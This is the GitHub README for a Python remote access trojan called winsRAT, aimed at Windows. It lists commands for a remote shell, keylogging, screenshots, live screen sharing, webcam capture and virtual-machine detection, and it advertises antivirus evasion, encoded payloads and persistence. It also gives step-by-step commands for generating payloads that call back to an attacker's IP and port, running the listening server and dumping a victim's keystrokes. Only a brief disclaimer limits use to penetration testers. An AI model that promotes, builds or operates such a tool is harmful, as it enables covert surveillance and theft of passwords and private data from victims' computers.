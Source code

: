 <h1 align="center"> 
    <img src="https://user-images.githubusercontent.com/29171692/89164677-00e3e480-d595-11ea-9cf1-f27ab1faf432.png" alt="winsRAT" /> <br>    
    winsRAT Under continuous development (Beta winsRAT)
</h1>
<p align="center">
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <a href="https://github.com/ThemeHackers/winsRAT/releases" target="_blank"><img src="https://img.shields.io/badge/version-v2.1-blue.svg?logo=moo" alt="Release: v3.1" /></a>
    <a href="https://opensource.org/license/gpl-3-0" target="_blank"><img src="https://img.shields.io/badge/license-GPL-green.svg" alt="lisence" /></a>
</p>
<h4 align="center">Windows RAT</h4>

## Getting Started
### Description
winsRAT is written entirely in Python, developed from SillyRAT. winsRAT is a RAT specifically for Windows operating systems and has additional features. Server.py can generate two types of files: .exe files and source files.

### Features
This code shows the features of the tool.
```bash
def help_c_current(self):
        headers = (pull.BOLD + 'Command' + pull.END, pull.BOLD + 'Description' + pull.END)
        lister  = [
            ('help', 'Shows manual for commands'),
            ('sessions', 'Show all connected clients to the server'),
            ('connect', 'Connect to a Specific Client'),
            ('disconnect', 'Disconnect from Current Client'),
            ('clear', 'Clear Screen'),
            ('shell'  , 'Launch a New Terminal/Shell.'),
            ('keylogger', 'KeyLogger Module'),
            ('sysinfo', 'Dump System, Processor, CPU and Network Information'),
            ('screenshot', 'Take Screenshot on Target Machine and Save on Local'),
            ('screenshare' , 'Take Screenshot on Target Machine and Share in Real Time'),
            ('webcam', 'Capture Webcam Image and Save on Local'),
            ('antivm' , 'Check if the target is a VM to change the behavior of winsRAT.'),
            ('exit', 'Exit from winsRAT!')
            
            
        ]
```
- And others, stay tuned.

### High-level features

- Avoid AV
- The payload is base64 encoded.
- The webcam module is developed to capture images of multiple devices on the connected target machine. For example, if the target machine has 5 webcams, this module will capture images of all 5 devices immediately when using the webcam command on the server.
- Reconnecting to increase retention
- RAT behavior changes when encountering a VM target (under development)
- And others, stay tuned.

### Installation
The tool is tested on **Windows** with **Python 3.13.4**. 
Follow the steps for installation:
```
git clone https://github.com/ThemeHackers/winsRAT
cd winsRAT/
pip3 install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>

Source file

```bash
python3 server.py generate -a server_ip -p server_port -o "C:\Users\{...}\Downloads\{name_output}" -s -per
python3 server.py generate -a 192.168.1.100 -p 9001 -o "C:\Users\1com3456\Downloads\winsrat" -s -per
```
Compiled file

```bash
python3 server.py generate -a server_ip -p server_port -o "C:\Users\{...}\Downloads\{name_output}"
python3 server.py generate -a 192.168.1.100 -p 9001 -o  "C:\Users\1com3456\Downloads\winsrat"
```

Replace your IP Address and Port on above commands. 

### Running Server
The server must be executed on Windows. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```bash
python3 server.py bind -a 0.0.0.0 -p 9001
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```

### Help
Get a list of available commands: 
```
$ help
```

Help on a Specific Command:
```
$ help COMMAND
```

### Credit
Twitter: <a href="//twitter.com/hash3liZer">@hash3liZer</a><br>
Discord: TheFlash2k#0407

### Support the improvement 
Instagram: <a href="https://www.instagram.com/_tthemzdl5678/">_tthemzdl5678</a><br>
Github: <a href="https://github.com/ThemeHackers/">ThemeHackers</a><br>
### Disclaimer
This tool is only for use by penetration testers or security testers. The author is not responsible for any illegal actions in your country.
